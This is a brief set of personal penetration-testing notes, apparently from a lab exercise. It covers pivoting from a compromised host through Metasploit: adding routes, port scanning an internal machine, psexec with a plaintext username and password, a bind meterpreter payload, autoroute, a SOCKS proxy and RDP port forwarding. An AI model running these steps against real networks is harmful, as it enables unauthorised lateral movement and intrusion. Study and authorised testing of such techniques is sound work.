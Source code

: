 #pivoting #tunneling #metasploit 

172.16.5.200 is the device we are pivoting to from the initial compromised host which we have a meterpreter session.

## Manual Configuration
### Adding Routes

```msf
bg
```

12 is the session number
```msf
route add 172.16.5.0/24 12
```

```msf
route print
```

### Device Scannner

```msf
use auxiliary/scanner/portscan/tcp
```

```msf
set RHOSTS 172.16.5.200
```

```msf
set PORTS 445,3389
```


### PSEXEC  config to connect to the second machine

```msf
use exploit/windows/smb/psexec
```

```msf
set SMBUser luiza
```

```msf
set SMBPass "BoccieDearAeroMeow1!"
```

```msf
set payload windows/x64/meterpreter/bind_tcp
```


## Auto Pivot(+ SOCKS Proxy)

```msf
use multi/manage/autoroute
```

12 is the initially compromised host
```msf
set session 12
```

```msf
run
```

### Setting Up Proxy

```msf
use auxiliary/server/socks_proxy
```

```msf
set SRVHOST 127.0.0.1
```

```msf
set VERSION 5
```

```msf
run -j
```

### Setting Up port Forward

in the meterpreter session

```msf
portfwd add -l 3389 -p 3389 -r 172.16.5.200
```
